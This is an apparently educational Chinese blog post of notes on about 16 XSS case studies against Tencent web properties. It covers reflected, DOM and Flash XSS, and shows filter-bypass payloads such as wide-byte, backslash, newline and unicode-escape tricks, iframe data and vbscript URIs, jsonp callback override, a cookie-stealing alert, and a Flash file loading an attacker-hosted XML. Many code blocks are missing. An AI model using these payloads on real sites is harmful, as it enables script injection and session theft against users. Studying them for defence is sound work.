


@心伤的瘦子 的21个鹅厂XSS案例，从反射型XSS到DOM XSS再到Flash XSS最后到存储型XSS，用案例把各类XSS都讲了一遍，读完之后感觉非常长见识，简单做了一点记录，现在SRC基本不收反射型XSS，Flash应用也几乎绝迹，着重看看存储型XSS叭ヽ(^。^)丿
反射型XSS
1.什么都没过滤的入门情况
反射型XSS，无过滤，输出在HTML中，直接插入HTML标签，利用标签的一些事件执行js
模型：
|
|
- XSS的存在，一定是伴随着输入，与输出2个概念的。
- 要想过滤掉XSS，你可以在输入层面过滤，也可以在输出层面过滤。
- 如果输入和输出都没过滤。 那么漏洞将是显而易见的。
漏洞url：
漏洞点在score，没有过滤
poc:
防御：
通常，我们只需要在输出前，将 < , > 过滤掉即可。
这类XSS通常都被浏览器的XSS过滤器秒杀了，所以一般来说，威力较小。
2.输出在<script></script>之间
反射型XSS，无过滤，输出在<script></script>之间，直接构造js代码，注意把前后的语句闭合。
模型：
|
|
漏洞点
http://activity.soso.com/common/setParentsInfo.php?callback=aaaaaaaaa
callback参数未过滤, 查看源代码：
缺陷源代码：
>
碰到这种情况，首先判断，是否过滤了
<,>,/等符号, 如果都没有过滤，一般可直接XSS。代码如下：
http://activity.soso.com/common/setParentsInfo.php?callback=aaaaaaaaa</script><script>alert(1)</script>原理入下图：
如果过滤了
<,>,/等符号:
http://activity.soso.com/common/setParentsInfo.php?callback=eval('alert(1)');void

eval('alert(1)');拼接到前面的parent.后面了，然后一个;结束了这个语句，然后void与后面拼接成了void(_ret);。即：
我们插入的内容，使得这一段javascript依然【语法正确】，能够【正确执行】，并且能够执行【我们所插入的JS代码】
防御：
- 过滤 组合
- 针对输出在不同的场景，进行合适的过滤。
3.输出在HTML属性里的情况
反射型XSS，输出在HTML标签的属性中，比如引入CSS的style属性，或者标签的各种事件属性，不过前者已经过时，后者和输出在<script>标签中差不多。
模型
|
|
- 大网站一般不是吃素的。前面讲到的基本情况，一般都很少遇到了。
- 这个时候我们可以把目光发展一下，找一找在【输出】出现在HTML属性里的情况。
- 最为典型的一种情况，是下面这样的。
http://xxxx.com/search.php?word=乌云欢迎您
HTML代码里则是下面这样情况的。<input type="text" value="乌云欢迎您" />
如果这里的word没过滤双引号。就会有以下的情况发生。http://xxxx.com/search.php?word=乌云欢迎您" onclick="alert(1)
对应的源代码如下：<input type="text" value="乌云欢迎您" onclick="alert(1)" />
那么当用户点击这个文本框时，就会触发 alert(1) 。
转义方法也挺简单，将"转义为"就行。
转义后的代码如下：<input type="text" value="乌云欢迎您" onclick="alert(1)" />- 一般, 过滤了
"，可以说是高枕无忧了，但是事实并非如此。某些情况下。我们依然可以继续XSS。
第一种场景：
<body style="...[输出]...">
>
这里的bg参数过滤了【几乎】所有的东西。但是它输出在了
<body style="[这里]">更重要的是，这里没有过滤
\，反斜线， 而 css里，允许使用转义字符,\+ascii16进制形式这里过滤了
expression, 我们也可以轻松的用expr\65ssion绕过。poc:
>
这种情况，遗憾之处在于，基于 css expression 的XSS 已经进入暮年了，只有在IE6，7 下方能触发，受众面小.
第二种场景
|
|
漏洞点：
http://stock.finance.qq.com/report/search.php?searchtype_yjbg=yjjg&searchvalue_yjbg=aaaaaaaaaa
看输出，如下，aaaaaaaa 出现在了2个点。
常规来说，因为
onxxxx="[输出]"和href="javascript:[输出]"与<script>[输出]</script>没有太大区别。因为[输出]所在的地方，都是javascript脚本。
但是<script>[输出]</script>如果被过滤，往往没有太好的办法。
而上面这2种情况，则有一个很好的办法绕过过滤。Tips:
换言之，只要上面的情况，没有过滤
&，#等符号，我们就可以写入任意字符。
看看缺陷点的代码
>
JS部分我们可以做以下构造,由于
'被过滤，我们可以将'写为'
>
接着我们把代码转换为 url 的编码。
&-> %26,# -> %23最后利用代码如下：
>
用户点击页面[GO]按钮触发。
由于缺陷点是发生在 onkeydown 或 a 标签的 href 属性中，无法自动触发，因而使得威胁减小，如果是发生在 img 的 onload 属性，则非常可能导致自动触发。
缺陷页面的
<a href="">触发点的代码如下：
>
防御：
- 对于输出在HTML属性中的情况，需要特殊情况特殊对待，该过滤
\的时候，请过滤\, 该过滤&的情况，则过滤掉&- 碰到有某些修复的人用正则去判断，
&#xNNN.., 而实际上�NN;�NN, （后面自己慢慢试。。） 都是可以的。 或者是
进制;以及一些特殊的HTML实体，如"等，都要注意到，好麻烦， 最好的办法，还是&过滤为&：）
4. 宽字节复仇记 [QQ邮箱基本通用]
反射型XSS，当charset=gbxxxxx时，可以尝试利用宽字节吃掉后面的转义
漏洞点
http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%22;alert(1);//aaaaaa
尝试注入
"来闭合前面的双引号，但是很悲剧的是，双引号被过滤了
看到这种情况，一般人估计会放弃了吧，至少说明程序员注意到了这里，并且过滤了。
然后我们可以看到编码是：

>
gbxxxx系列的编码，那么我们尝试一下宽字节呢？
http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%c0%22;alert(1);//aaaaaa
看看效果：
弹个窗:
至于这个漏洞的成因，和传统的宽字节漏洞并不一样。目测应该是由于过滤双引号的正则表达式写得有问题造成的。并不是因为%22变成了 %5c%22,而 %c0吃掉了后面的%5c。 而后面这种情况，在腾讯的相关站点暂时没有发现实际案例。 如果有，欢迎大家分享。
5. 反斜线复仇记
反射型XSS，输出点还是在<script>之间，有两个可控的输入输出点，可以在第一个输入输出点使用反斜线\转义后面的引号，第一个输出前的引号，与第二个输出前的引号，组成一个字符串，后面插入我们构造的代码。
漏洞点：
对应的输出：
双引号被转义，反斜线还能用：
把缺陷代码部分提取出来。
>
有问题的地方ss和from，但不能使用双引号
但是可以使用反斜线，杀掉
ss=aaa后面的":
>
为了保证 bbb 后面的语法正确性，我们把bbb改为一个数字，把bbb后面加上
//来注释掉后面的部分。变成以下形式。
>
但是,
"字符串"&from=1这样是错误的，因为&符号的优先级高，("字符串"&from)=1是无法进行这种赋值操作的使用
==代替=：
>
由于
==的优先级比&高，所以语句相当于("字符串")&(from==1)但是，from未定义，又会报错
js有一个特性：
>
凡是以 function xxx(){} 形式定义的函数，都会被最优先解析。换句话说：
解析器在解析JS代码段时，会先将 function xxx(){} 拿到最前面解析，然后再依次解析其它的部分。 换句话说，上面的代码，实际的解析顺序是：
>
利用这样一个特性，我们的代码可以改改。
>
这样一来，我们的
function from(){}就会被提前解析，从而定义了from, 后面from==1的时候，就不会报错啦～～到了这一步，我们会发现还是不行。看一看源代码吧～～ ，哎，我们的空格被转义为了
用注释符来做分隔符。 /**/替换空格，有没有觉得和 sql注入一样了
>
这次没有语法错误了，我们插入我们自己的JS代码。
>
最终完整poc：
6. 换行符复仇记
反射型XSS，输出在<script>之间，且输出的那一行前面有单行注释，那么可以使用换行符，在代码中换行，新的一行前面没有注释，就能够执行我们构造的代码了。
漏洞点
http://datalib.games.qq.com/cgi-bin/search?libid=178&FilterAttrAND=3602&FilterValueAND=aaaaaaaaaa
看输出点：
输出点一共有5处，有在HTML标签之间的（教程1），也有在
<script>..</script>之间的。但是呢，该过滤的，<,>过滤掉了， 该过滤的"，也过滤掉了:输出点还有一处在注释里：
这样一来，是否会想到这样一个用法呢？
>
如果可以使用换行符的话，就会变成
>
这样alert(1); 就会被成功执行。
构造：
>
成功弹窗
7. 宽字节、反斜线与换行符一起复仇记
反射型XSS，宽字节、反斜线与换行符组合使用实现绕过
漏洞点：
老规矩，继续看我们的输出。

一共有3处输出，位于HTML属性里的那一处，我们放弃了，因为双引号被灭掉了。那么还剩下2处。 都是位于
<script>..</script>里，而且挨在了一起。先看第2处，是不是似曾相似啊？ 对的，教程6里刚刚遇到过。那就是输出在【注释】的情况。我们用换行符试试？
一条是好消息，换行可以用，一条是坏消息。。下面出现的一句坏了我们的好事。。肿么办。
js知识：
javascript，字符串允许下面多行的写法。
>
基于这点，我们可以把缺陷点构造成下面的样子。
>
那么代码构造的解析如下：
带着这个想法，请上我们的反斜线。。
悲剧的是，反斜线被过滤成了2个\，这下不好办了。
还记得在教程4里，我们提到的宽字节用法么？说到了
%c0可以吃掉%5c。我们看看页面的编码。
>
于是，我们的
%c0也加入战斗了。
>
看看源码中的输出。
\\被我们变成了乱码+\
DOM XSS
DOM XSS是一类特殊的反射型XSS，但是一般的反射型XSS，XSS代码是通过服务器返回到客户端的，而典型的DOM XSS，XSS的代码是由操作DOM的js动态形成的，在服务器返回的原始HTML中，是不存在XSS攻击的代码。有关DOM XSS的更多内容，可以看窝翻译的这篇文章 https://cyto.top/2019/03/22/translation-DOM-Based-Cross-Site-Scripting-or-XSS-of-the-Third-Kind/
8. Dom Xss入门 [显式输出]
DOM XSS，模型：innerHTML="[输出]"
反射型XSS部分，就到这里了。 接着我们进入Dom Xss的部分。 Dom Xss相比反射型XSS，脑袋需要多思考一层。 也就是说，我们关注的不仅是【输出】了什么，还要了解这个页面里，【javascript】拿这个【输出】干了什么。 为了循序渐进，本例讲到的是，【输出】直接在源代码可见的情况。
在学习Dom Xss之前，先来补习点 html, js 的基础知识。
>
进一步，我们的 yyyyyy ，还可以是 HTML代码。
再进一步， JS的字符串中的字符可以写为 unicode编码。
譬如：
<可以表示为\u003c,>可以表示为\u003e不知道怎么转义的，可以使用gainover的工具。
工具地址：http://app.baidu.com/app/enter?appid=280383
上面的代码，可以进一步写为
漏洞点
和前面反射型的一样，我们先看看输出。
相关代码，我也贴出来。

>
一共有6处，有一处图上没显示,但是也没用处，这里不列出来了，看上面代码中的5处。我们已经知道，
<,>,"都被过滤了， 用前面提到的某些技巧，似乎也无法直接XSS。那么该怎么办呢？上面代码中，实际上只有一句是运行了的。我们重点看它。
>
这里 [输出] 最然过滤了
<,>，但是并没有过滤\。这样一来，大家应该清楚，为什么上面要说到<可以写为\u003c了吧。 就是为了应付这种情况。因此，我们可以构造缺陷点的代码如下：
经过运行后， titleshow 里的HTML就会变为
<img src=1 onerror=alert(1)>，从而弹出1。对应的，我们的利用代码，可以写为如下，其中空格，我写为了
\u0020
看看对应的源代码，悲催的事情出现了，
\u003c和\u003e竟然被腾讯过滤了。。。被过滤的原因，是因为 @Jannock 大牛在乌云报告过这个漏洞。
WooYun: 跨站脚本-可以让战场离得更远（浅谈腾讯架构缺陷）
其实我们还应该注意到上面图片中，过滤的实际上是
\u003c和\u003e，但是并没有过滤\u0020，这说明，腾讯只是针对性的过滤，并没有过滤 反斜线。在JS字符串里，
<不光可以写为\u003c，还可以写为\x3c，>同样可以写为\x3e。我们试试腾讯过滤了这个没有呢？
没被过滤
总结一下：
本例中, 是
innerHTML的情况但 只要是与改变页面HTML内容相关的操作，都可能导致这种问题。 比如：
最后，还需要注意一下：
这种情况下。xxxxx只能使用
<img src=1 onerror=alert(1)>这种方式来触发JS。而不能以
<script>alert(1)</script>来触发，因为这种压根不会执行<script>..</script>之间的内容。 IE下，可以使用<script defer>alert(1)</script>。修复方案：
方法1. 输出时，过滤
\方法2.
innerHTML=encodeHTML([输出])
9. Dom Xss入门 [隐式输出]
https://shuimugan.com/bug/view?bug_no=16150
DOM XSS
上一篇开始说Dom Xss了，我们说的是显式输出的情况，即我们可以在右键查看源代码的时候，看到我们所输出的内容。而有一些时候，输出操作我们是看不见的。它们通常发生在javascript代码中。譬如：
var x=location.href;这句Javascript实际上进行了一个隐藏的输出操作，即将location.href的内容输出到了x变量中。一起来看看相关的例子吧～在说实际例子前，我们来说一个前端开发人员非常习惯使用的一段代码。下面大致写下伪代码。
它的作用呢？就是从地址栏的参数里取出内容。譬如：
我们在2.html，要显示 name 对应的值。对应的代码则非常可能下面这样写：
此时，将
a=<img src=1 onerror=alert(1);>传入，就会造成8中的DOM XSS
看这节课的案例：
漏洞点：
http://qt.qq.com/video/play_video.htm?sid=aaaaaa
和原来的不同，我们在源代码里搜索不到东西的哦～
那可能这里有人会有一个疑问了。那我们怎么知道有没有漏洞呢？ 别担心，方法是有的。
这里以chrome为例，按F12，打开调试工具，见下图
和查看源代码没有什么不同，只是这次是在调试工具里看而已。
通过上面的方式，确定【可能】有漏洞之后。我们可以有2个方式来进行下一步。
1 直接根据调试工具里看到的HTML代码情况，来构造利用代码。 优点：省时间，缺点：如果对方有一定过滤，就很难构造
2 定位到与这个缺陷参数sid相关的JS代码，再来构造利用代码。优点：能利用一些复杂的情况， 缺点：耗时间。
先看1的情况。看到步骤5里面的那个图。我们可以构造以下代码。
对应的图片解析：
进而“试探性”的测试一下利用代码，因为我们不知道对方会不会过滤掉 “双引号”，“括号”之类的，只能试试了。。
没反应，我们继续看看调试工具，发现，双引号，变成了 \“ 。
根据这个情况，我们可以进一步修改代码。
标签里不使用双引号。
可以看到，这种方式，写利用代码很快。
再来看看 2 的方法
既然我们知道了，sid这个参数会被使用。 那么我们的目标是，javascript的代码里哪里使用了sid这个参数呢？
我们首先，F12打开调试工具，点【Resources】，再点Frames, 然后 Ctrl+ F搜索 “sid” 或者 ‘sid’
可以看到是 getUrlPara(“sid”)，从单词，我们不难猜出，getUrlPara就是前面我们提到的 “获取地址栏参数“的函数。
为了进一步确定，我们可以很方便的在console里查看getUrlParam函数是啥样的。

|
|
可以看到，实际上getUrlParam是对
<,>做了过滤， 但是由于chrome浏览器自身的XSS防御机制，导致location.href获取的location.href是已经经过编码的。从而导致未过滤。
按道理，location.href里的
<,>,"已经变成了%3c,%3e,%22已经被过滤了，不会有XSS了，为什么还可以呢？我们进一步往后看。

decodeURIComponent(sid)方法用于解码由encodeURIComponent 方法或者其它类似方法编码的URL
trim()从一个字符串的两端删除空白字符
看来，关键就是这里，这里有一步
decodeURIComponent的操作，会将%3c,%3e，又变回<,>供参考的完整的缺陷代码。
接着，会调用 insertFlash(“dv_video”,”f”,sid,”100%”,”100%”);
insertFlash里，也并没有对sid进行任何过滤。
图片解析：
根据以上分析，我们的利用代码可以写为。注意，%3E,%3C的编码是关键。
非常值得说明的是：
如果采用6.1的方法，我们得到的利用代码是
!! 这个代码在IE下，是没法XSS的。
而通过6.2的方法，去分析JS代码，我们则可以构造出通用的XSS代码。
10. Dom Xss进阶 [邂逅eval]
DOM XSS
前面的教程，说到了显式输出和隐式输出。但是不论怎么样，因为最终javascript都会通过document.write或innerHTML将内容输出到网页中，所以我们总是有办法看到输出到哪里。 但是有时候，我们的输出，最终并没有流向innerHTML或document.write，而是与eval发生了邂逅，我们该怎么挖掘并利用呢？
漏洞点
http://kf.qq.com/search_app.shtml?key=aaaaa
和前面的不同之处，这次我们搜索源代码和调试工具都看不到任何东西。
这个时候，我们可以看看Console，看看有没有其它有用的东西～～
一般来说，默认情况下，是不会有问题的。我们可以给参数加一些特殊符号。
这里我比较习惯用\，因为这玩意比较好使。当然你也可以用其它比较特殊的符号，比如双引号，单引号，只是被过滤掉的几率比较大。
这个时候，我们看看Console里面，多出了一条错误。
我们可以点右侧，直接定位到错误代码。
点进去后，可以看到是哪个地方出错了。
我们来看看这段代码：
和上一节教程类似，这段代码，实际上也是一个获取地址栏参数的代码。
比如，地址栏是key=aaaa; 那么 arg[0] 就是字符串’key’, arg[1] 就是字符串 ‘aaaa’;
那么eval这句就是执行的 eval(‘this.key=”aaaa”;’)
这样一来 ,
this.key="aaaa";这句就被执行了。如果这里我们把 key 换个写法呢？
如下图：
那么是不是将会执行我们的
alert(1);呢？根据上面内容，我们可以构造代码。
不知道看完上面的，有没有娃注意到，后面的 aaaa 不是也可以构造吗？
this.key="aaaa";换为this.key="aaa";alert(1);//";确实是如此 :)
这个在IE下一样是可以的。
但是这样在chrome下却不行。 原因其实上面一节教程也提到过。
chrome会自动对
",>,<进行转换。因而
会变成
从而失效。
修复方案
参照你们已经修复的类似文件即可。 http://kf.qq.com/wsearch.shtml 的 http://kf.qq.com/js/wsearch.js
本来上面这个文件也是存在漏洞的，估计这个位置已经被人报告给腾讯了，因而腾讯加了一次防御。我们看看腾讯的防御措施。
也就是说，腾讯这里对后面的arg[1]进行了过滤。
接着，这个问题又被再次报告了，因而前些时候，腾讯又进一步做了修复。
这一次，腾讯对 arg[0]进行了判断。
哈，补了东墙，补西墙。 不过呢？补了这个wsearch.js文件，还有我们现在分析的这个(http://kf.qq.com/js/search_app.js)文件。
11. Dom Xss进阶 [善变iframe]
DOM XSS
有时候，输出还会出现在
<iframe src="[输出]"></iframe>。 iframe 的 src属性本来应该是一个网址，但是iframe之善变，使得它同样可以执行javascript，而且可以用不同的姿势来执行。这一类问题，我将其归为[路径可控]问题。当然上面说到的是普通的反射型XSS。有时候程序员会使用javascript来动态的改变iframe的src属性，譬如：iframeA.src=”[可控的url]”; 同样会导致XSS问题，来看看本例吧～先来说说iframe的变化。
- 最好懂的，onload执行js:
<iframe onload="alert(1)"></iframe>- src 执行javascript代码:
<iframe src="javascript:alert(1)"></iframe>- IE下vbscript执行代码:
<iframe src="vbscript:msgbox(1)"></iframe>- Chrome下data协议执行代码:
<iframe src="data:text/html,<script>alert(1)</script>"></iframe>- 上面的变体:
<iframe src="data:text/html,<script>alert(1)</script>"></iframe>- Chrome下srcdoc属性:
<iframe srcdoc="<script>alert(1)</script>"></iframe>具体例子
漏洞点
我们先开调试工具，看看有没有可见的输出。
可以看到，我们参数的aaaaaa被带入到了
<iframe src="这里"></iframe>。这样一来，就满足了我们的使用条件。
我们试试
。。竟然没反应。我们来看看刚才的那个地方。
可以看到，src这次没属性了，看来腾讯做了什么过滤。我们继续搜索下一个toolframe试试。
恩，看来就是这段代码导致的。
一起看看这段代码。
而openFrame的url参数则来自于(无关代码省略)：
根据我们上面说道的iframe的利用方法，我们不难看出，腾讯的过滤是不完善的。
在IE下，我们可以使用vbscript来执行代码。 vbscript里
'单引号表示注释，类似JS里的//
在chrome下，我们可以用data协议来执行JS。
12. Dom Xss进阶 [路径con]
DOM XSS
一些程序员会动态的加载json数据，同域的时候，可以使用ajax；而有时候，数据所在域和当前页面所在域又不一致。所以需要跨域请求。跨域请求数据的手段中，有一种叫做jsonp。
用代码表示的话，就是
某些时候，程序员会在调用外部数据的时候带上可控的参数。
如果这个id我们可控，将可能带来XSS问题。
在扫描过程中，经常遇到下面的例子。【??? 怎么扫描,Bt5的，/pentest/web/ 目录下，也有几款xss扫描器,@gainover 开发中的扫描器
如果这个地址是我们可控的话，一样会带来威胁。地址的可控可以分为3个层面。
script src="完全可控": 这种就简单了，直接将地址换为我们的JS地址script src="/path/xxx/[路径可控]/1.js": 这种要利用的话，需要同域名下有可控的文件。可控文件又分为2种。
- 可以直接上传文本至同域名下，不一定要是HTML文件，需要上传点有过滤缺陷。
- 参数可控，利用可用的json接口。最终变为
script src="/path/xxx/.../yyy/xx.json?callback=alert(1)"script src="/xxxx/json.php?callback=xxxx¶m1=yyy¶m2=[参数可控]": 与上一条的第2点类似，如果参数可控，且json的参数没有很好的过滤时。我们就有机可乘了。本文以拍拍网一处XSS为例，来描述以上可能性。
扫描器扫到的点，见步骤1中的图。进一步，我们可以通过抓包的方式，看到页面在打开时，所加载的外部JS文件地址。
我们打开这个JSON，用扫描反射型的方式，可以测试出，
callback, dtag 以及 ranking可控。但均无法使用<, >，也就是说，这个JSON接口本身是无XSS风险的。
此外 dtag, 和 ranking 都在双引号里面，我们在后续无法进行利用，而callback则在最前面，比较好控制。
我们可以想象下，如果我们可以让这个页面调用：
那么将会产生XSS。
那么怎么让页面调用上面的情况呢？
1 直接控制callback参数，但是从实际情况来看，我们此处无法直接控制它，【失败】
2 将后面的参数, param=xxx修改为param=xxx&callback=alert(1) ，从而覆盖前面的callback
上面说到的第2种方案，似乎可行。但是实际上还是有问题的。
譬如我们页面上的 type参数，对应着json的sclassid参数。
我们访问以下地址：
其实很明显上面这样是不行的。。因为 & 本身就是参数分隔符。这样写type就为空了
可能很快就有人想到另外一个写法：& 写为 %26
很好，但是实际上，你会发现，访问的json接口的参数也还是原封不动的 %26，而不是所希望的 &
为了看看参数是怎么从页面，传递到了 comm_json 这个接口上的。我们定位到以下代码。
code:
在这个文件里，我们很容易的看出，当前页面参数和json参数的对应关系
option.JSON参数=$getQuery("页面参数")一个函数让我眼前一亮啊，decodeURIComp。。也就是说，传入的keyword，会解码一次。
也就是说，如果我们
decodeURIComp就会变为
为了证明我们的想法：我们直接写利用代码。注意keyword=那一部分
抓包可以看到，被动态加载的keyword参数，我们在后面插入了一个callback，覆盖了前面的callback
同样，看到返回的comm_json的内容
13. Dom Xss实例 [Discuz X2.5]
DOM XSS
我们教程的DOM XSS就到这里了。最后再给大家送上一个实例。希望大家能够体会到：XSS的上下文非常重要，如何结合上下文，利用未过滤字符，合理的构造，才是成功的关键。
漏洞点：
可以看到我们的aaaaaaaaaa在源代码里有2处输出。
看第2处，我们需要用双引号闭合，但是显然dz不会给我们这么明显的机会，被拦截了。
我们把目光放在第一处，这一处很特殊，位于setTimeout函数的第一个参数里，setTimeout的第一个函数会将字符串作为脚本来执行。
我们把这一部分代码提取出来。
我们首先能想到的是闭合掉 单引号， 但是这里单引号已经被过滤了。
那么是不是就没有办法了呢？我们可以看到
setTimeout的第一个参数是字符串；我们前面的教程里说过一次，JS字符串中，字符还可以表示为unicode的形式。即：单引号还可以表示为\u0027或\x27。带着这个想法，我们可以试试\有没有被过滤。幸运的是，这里还真没过滤\接着我们就是构造代码了。
首先写好代码。
将里面的引号变为
\u0027
代入到URL里。
可以看到弹出了cookies。
其实这里存在一个问题。 这段JS代码里，第一句是
location.href="某个地址";上面我们所演示的，是一个alert，暂停了location.href的发生。如果我们把
alert(document.cookie);换成插入某个JS文件的脚本代码，就会出现问题。即：JS文件还没来得及加载，
location.href="某个地址";这句就会被执行，从而跳转到另外一个页面了，继而导致失效。所以这里，我们有必要改进下执行JS的办法。如下，
我们可以直接让代码变成执行
location.href="javascript:alert(document.cookie)";
location.href='原来的字符串'.替换(所有字符,"新的字符");
同上，替换单引号,加号什么的。
最后利用代码。
可以看到，效果一样，这次就不会发生跳转从而导致加载JS失败咯。
Flash XSS
14. Flash Xss入门 [navigateToURL]
Flash XSS, 反射型XSS, Flash应用安全
接下来，我们将讲解Flash Xss。由于乌云及社会各界的白帽子的上报，腾讯目前已经对绝大多数可能存在问题的Flash进行了修复。使得我在寻找真实案例时着实麻烦了不少。但是为了使得本教程足够完善和系统，我还是很艰难的找出了一些可以参考的例子。例子本身危害可能不大，但是希望能够借助例子给新手们描述清楚比较基本的东西。
Flash的actionscript脚本目前网络上存在2种版本，即2.0与3.0，本次教程先以as3.0为例。同时教程还会在如何使用搜索引擎搜索，如何查找关键词及构造利用代码方面进行详细的讲解。
首先，第一步，我们需要找到存在缺陷的FLASH文件。如何找到这类文件呢？最好的办法，当然是GOOGLE搜索。但是其实很多人是不太会用搜索引擎。或者知道怎么用，但是不知道该如何搜索关键词。因而教程的开始，我们来说一说，如何搜索关键词。
基本语句肯定是
site:qq.com filetype:swf, 意思是，限定域名为qq.com 文件类型为FLASH文件。显然这样会搜索出很多FLASH文件，不利于我们后续的漏洞查找，所以我们需要输入某个关键词来进一步缩小范围。这里我列举一些寻找关键词的方式。
- 已知存在缺陷的FLASH文件名或参数名，如：swfupload,jwplayer等
- 多媒体功能的FLASH文件名，如：upload，player, music, video等
- 调用的外部配置或数据文件后缀，如: xml, php 等
- 前期经验积累下来的程序员特征参数名用词，如: callback, cb , function 等
结合以上经验，本例使用其中第三条, 我们搜索：
site:qq.com filetype:swf inurl:xml可以找到这个FLASH
如果你对FLASH有一定了解或者你天资聪慧的话，通过以上地址，你或许能猜到这个FLASH会调用
http://v.qq.com/doco/pic.xml这个XML文件的数据，为了看看是什么数据，我们可以使用抓包软件【这里我使用的是charles web proxy】来看看。我们看看
http://v.qq.com/doco/pic.xml的内容，对应着FLASH来看。这里我们重点关注的是xml里的
<link>结点。也就是当我们点击图片时，会跳转到link所指向的地址。接着我们先说下基础知识。要实现上面点击图片，打开链接的功能，在FLASH里通常以以下代码来实现的。
当图片点击时执行 函数A
函数A内容如下：
其中link就是被打开的链接。
如果link是
"javascript:alert(1)"那么就可以执行JS代码了。这里的点击执行代码的效果类似于网页里的
基于以上基础知识，我们可以先来反编译一下腾讯的FLASH文件，看看是不是上面这样的。
这里我用到的反编译软件是 actionscript viewer 2009。
把下载好的FLASH文件，拖到软件里，然后把AS都保存出来，保存为文本文件。
如上图，我们可以看到AS代码具有目录结构，这种是AS3的。如果不是这样目录的样子，则是AS2的代码。
由于我们要定位的是使用到 link 的代码。 我们打开保存的as代码，进行搜索。
可以看到，当点击图片时，直接将数据里的link作为参数传递到了 URLRequest中。
既然如此，我们把
http://v.qq.com/doco/pic.xml给下载下来，将xml文件里的 部分修改一下。
上传修改后的pic.xml到我们自己的服务器。
这样一来， 腾讯的
http://imgcache.qq.com/liveportal_v1/swf/carousel.swf就会跨域加载我们的http://itsokla.duapp.com/pic.xml文件。既然是跨域加载，有必要说点基础知识。 FLASH跨域请求的流程大致如下：
因而，我们要允许来自
imgcache.qq.com的FLASH文件，访问我们的xml文件才行。在我们自己网站的根目录下，放置一个
crossdomain.xml
点击图片时，触发。
15. Flash Xss进阶 [ExternalInterface.call第一个参数]
除了上一节讲到的navigateToURL/getURL之外呢，另一个经常存在XSS缺陷的as函数就是ExternalInterface.call，此函数作为FLASH与宿主页面javascript通信的接口，一般来说，有“2”个参数，第一个参数为所调用js函数名，后续的其他参数则为所调用的js函数的参数。那么在参数可控的情况下，不论是第一个参数或是后续参数可控，我们均能加以利用实现XSS。本节先说一说第一个参数可控的情况。
先从程序员的角度说下基础知识
有时候，我们需要在FLASH里调用当前页面中的javascript函数，例如：一个简单的需求，我们要在游戏加载完成后，执行弹出1的操作。
javascript代码:
as code:
有的程序员就会觉得，直接弹出1太丑了吧。于是他自己写个js的函数
然后在as里
又有一天，另外一个程序员觉得上面那个程序员写的东西不错，但是他的JS函数名不叫myalert，于是喊那个程序员改下as代码。于是那个程序员觉得，免得以后老是有人喊我改代码，他就将代码写成了下面这个样子。
这样一来，其他想用这个FLASH的人，不需要修改FLASH，只需要调用FLASH的时候带上参数即可。
比如我的JS函数是newalert, 我只需要按照下面这么调用：
上述过程提高了程序的可重用性，为开发人员带来了极大的便利，但是却是缺乏安全考虑的。
攻击者可以采用以下的方式来执行自己的代码
为了方便理解，我们可以将
看成JS里的
而FLASH里实际最后执行的JS代码，形式如下（至于下面这句哪里来的，暂时不表）：
因而 函数名 部分也可以写为
(function(){alert("hi jack")})的形式。案例
漏洞点：
http://quan.qq.com/swf/swfupload.swf
怎么反编译，见上一篇。我们来看怎么查找缺陷。
因为这是一个AS3.0的FLASH文件，我们首先确定FLASH是否有接受参数。
as3.0 接受参数的方法，所有参数存放在
root.loaderInfo.parameters对象里。例如
aaa.swf?a=1&b=2&c=3, 那么root.loaderInfo.parameters则等于
我们可以定位到 movieName变量
可以看出，FLASH的movieName参数，存放到了this.movieName中。
进一步， this.movieName被带入了到了
this.flashReady_Callback及其它变量。
我们再进一步看看，this.flashReady_Callback 被用到了哪里。
再接着看看调用
this.flashReady_Callback的Simple函数是啥样子的。
可以看到，最终这个参数被放到 ExternalInterface.call 的第一个参数中执行了。
是不是很激动。我们来假设一下，按下面调用FLASH
那么this.flashReady_Callback就等于以下内容。
最终调用的是
如果我们要调用自己的JS代码，就需要构造闭合，但是你会发现有一定问题。。
我们最多能够造成下面的模样。
但是这样是无法正确执行的，因为 SWFUpload.instances没有被定义，从而SWFUpload.instances[“aaa”]会失败。
怎么办呢？这里就要拿出我们第5步里的知识了。我们把“函数名”换成call的第一个参数内容。变成下面的形式。
我们再基于以上代码来构造，
图片解析:
上面一行不好看懂的话，写的好看点。
最后，我们把构造的代码，放进FLASH的参数里
可以看到成功执行alert(1)


16. Flash Xss进阶 [ExternalInterface.call第二个参数]
讲完
ExternalInterface.call的第一个参数，我们接着来讲第“2”个参数，之所以2打上引号，因为 call 函数的原型是：call(functionName:String, ... arguments):*， 即后面可以有很多很多个参数，我们统称为第2个参数。有时候我们会遇到ExternalInterface.call("xxxxx","可控内容");的情况，那么这种情况下，如何构造XSS呢？通过GOOGLE搜索，
site:qq.com filetype:swf inurl:xml我们可以找到以下FLASH。
借鉴上上节教程的思路，我们可以看看
http://imgcache.qq.com/qzone/client/custom_menu/custom_menu.xml里是个什么内容。好像看不出来是个啥用途，我们反编译FLASH文件。
接着我们先看看是否有getURL, ExternalInterface.call之类的。
可以看到，我们搜索到的是下面这句：
那么call的第一个参数是被限定死了～，第2个参数为 menu_array[_local2].href，
